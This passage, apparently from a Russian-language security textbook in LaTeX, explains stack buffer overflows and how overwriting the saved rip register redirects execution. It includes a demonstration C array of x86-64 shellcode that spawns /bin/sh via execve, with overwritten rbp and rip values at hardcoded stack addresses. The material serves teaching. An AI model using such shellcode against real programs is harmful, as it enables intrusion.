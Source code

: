 Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выровнены по границе параграфа в 16 байтов, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе имеется ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, есть возможность записать вместо сохранённого значения регистра \texttt{rip} новое. В результате по завершении данной функции исполнение начнётся с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохранённого регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис.~\ref{fig:stack-overflow} приведены исходный стек и стек с переполненным буфером, из-за которого записалось новое сохранённое значение \texttt{rip}.

\begin{figure}[!ht]
	\centering
	\texttt{[image: pic/stack-overflow]}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

